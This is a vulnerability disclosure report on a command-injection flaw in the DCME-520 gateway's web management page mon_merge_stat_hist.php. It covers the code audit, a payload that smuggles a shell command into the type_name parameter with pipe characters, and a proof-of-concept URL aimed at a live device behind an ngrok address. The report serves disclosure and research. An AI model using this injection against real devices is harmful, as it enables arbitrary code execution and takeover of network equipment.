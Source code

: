 ## Affected version 

DCME-520

## Vulnerability details 

DCME-520 Multi-core egress gateway is a new generation of high-performance Internet egress gateway for multi-user, multi-traffic and multi-service types. The command execution vulnerability exists in the DCME-520 gateway web management background. Attackers can use this series of vulnerabilities to execute arbitrary code on the device and control the device.

The firmware download address: https://www.dcnetworks.com.cn/ruanjian.html?title=dcme
The test environment is a real dcme-520 



一、mon_merge_stat_hist.php

Code audit
Code position in equipment system in/usr/local/WWW/function/audit/newstatistics/mon_merge_stat_hist. PHP
First, the user can control the following parameters, among which statset is used to control the conditional branch

![image-20250320232816219](https://github.com/user-attachments/assets/5c6cc97d-5e82-4272-8518-1fd21be550b2)

2、There are injection points inside the getList function, and these parameters can be controlled by the user

![image-20250320232845393](https://github.com/user-attachments/assets/814d168f-ac34-4b5a-9ad5-e6239619c388)

3、payload:? statset=predef_bw_user&type=5mins&type_name=|echo 114514 > 1.txt|

verify
Log in to the web management background

![image-20250320232920424](https://github.com/user-attachments/assets/9cb3f5dc-98ff-426d-b32e-65848dd8db1a)

Access the url of the vulnerability:
http://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/mon_merge_stat_hist.php

![image-20250320232949766](https://github.com/user-attachments/assets/06b378d4-15c1-4825-bd16-11635d2fce90)

Construction payload:
Create the txt file and write the numbers

```http
poc：
https://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/mon_merge_stat_hist.php?statset=predef_bw_user&type=5mins&type_name=|echo%20114514%20%3E%201.txt|
```

Send poc execution

![image-20250320233044749](https://github.com/user-attachments/assets/ff05708f-e857-4b6f-b4e4-a65aaad588d8)

txt file is created and written successfully

![image-20250320233108312](https://github.com/user-attachments/assets/2b8805d1-4f8e-4da0-8cff-c6a2d08e907c)







